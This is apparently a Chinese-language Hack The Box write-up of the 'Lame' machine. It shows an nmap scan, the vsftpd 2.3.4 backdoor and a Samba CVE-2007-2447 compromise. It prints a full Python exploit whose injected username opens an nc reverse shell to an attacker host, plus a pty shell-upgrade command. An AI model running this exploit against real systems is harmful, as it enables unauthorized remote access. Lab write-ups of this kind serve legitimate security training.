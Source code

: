 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Lame"
linktitle: "Lame"
date: 2022-03-09T11:56:40+08:00
type: book
summary: ""
test: 
---
```



nmap

```bash
nmap -T4 -Pn -A 10.10.10.3 -p 1-65535
```

扫描结果

```bash
Nmap scan report for 10.10.10.3
Host is up (0.26s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-04-02T04:51:23-04:00
|_clock-skew: mean: 2h07m46s, deviation: 2h49m45s, median: 7m43s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1047.56 seconds
```

首先是21端口 vsftpd 2.3.4版本搜索发现存在笑脸漏洞

原理是

```bash
此漏洞是开发者在软件中留下的后门漏洞，当连接带有vsftpd 2.3.4版本的服务器的21端口时，输入用户中带有":) "
(这大概就是此漏洞名字的来源）,密码任意，即可运行 vsf_sysutil_extra() ：打开服务器的6200端口，并且不需要密码
就能从6200端口以管理员身份登入目标服务器，漏洞危害很大。
```

但是通过复现后没办法利用

22端口

139、445端口

发现smbd 3.0.20-Debian服务，搜索了下发现存在cve

![](image/image_CysqiS7zSr.png)

msf查找漏洞模块

![](image/image_kLZxatW2tQ.png)

配置

![](image/image_HWhNfYhwAG.png)

成功！

![](image/image_GAALbTQ2pt.png)

python升级交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

拿到flag

![](image/image_jdaGGeXlmT.png)

不使用mfs的话，也找到一个脚本执行

[https://github.com/ozuma/CVE-2007-2447](https://github.com/ozuma/CVE-2007-2447 "https://github.com/ozuma/CVE-2007-2447")

samba-exploit.py

```python
#!/usr/bin/python3

# Ref: https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py
# Ref: https://amriunix.com/post/cve-2007-2447-samba-usermap-script/
# Product: Samba
# Vuln: CVE-2007-2447
# Exploit-DB: https://www.exploit-db.com/exploits/16320
#
# install: pip3 install pysmb

import sys
import platform
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
    payload = 'mkfifo /tmp/f; nc ' + lhost + ' ' + lport + ' 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f'
    username = "/=`nohup " + payload + "`"
    conn = SMBConnection(username,"","","")
    conn.connect(rhost, int(rport)) 


if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
        print("[-]  at another terminal, $ nc -lvnp <LPORT>")
    else:
        print("[+] Connecting")
        rhost = sys.argv[1]
        rport = sys.argv[2] # Usually 139/tcp
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```

```bash
#安装smb模块
pip3 install pysmb
#执行
python samba-exploit.py <RHOST> <RPORT> <LHOST> <LPORT>
```

![](image/image_HdYNQEPdr2.png)

![](image/image_5phulVRd_j.png)
